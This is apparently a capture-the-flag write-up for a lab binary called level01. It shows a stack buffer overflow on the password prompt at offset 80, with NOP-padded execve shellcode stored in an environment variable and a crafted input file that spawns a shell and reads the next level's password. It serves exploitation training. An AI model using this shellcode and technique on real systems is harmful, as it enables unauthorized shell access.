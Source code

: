 The program asks for username and password. We find username = "dat_wil" and password = "admin" through asm analysis. However, this will not open a shell: we are going to have to overflow.


We will overflow the second fgets which corresponds to the password query. Through gdb, we observe that the offset is 80.


First, let's copy our getenvaddr C program to the vm


$ scp -P 4242 level01/Ressources/getenvaddr.c level00@192.168.56.105:/tmp


From here, we will be working on the VM


Compile the c program:


$ gcc -m32 /tmp/getenvaddr.c -o /tmp/getenvaddr


Define an environment variable containing our shellcode, left-padded with no-ops

$ export SHELLCODE=$(python -c 'print "\x90"*1000')$(echo -ne "\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80")

Find its address with getenvaddr, and add the output for the location of the shellcode

$ /tmp/getenvaddr SHELLCODE
0xffffd4eb

ffffd4eb + a = ffffd4f5

Our shellcode address is 0xffffd4f5

We can now write our input file, which consists of: USERNAME + NEWLINE + PADDING + SHELLCODE_ADDRESS

$ python -c 'print "dat_wil"+"\n"+"A"*80+"\xf5\xd4\xff\xff"' > /tmp/exploit

We're all set, let's get in

$ cat /tmp/exploit - | ./level01

This should open up a shell

$ cat /home/users/level02/.pass

And voilà!
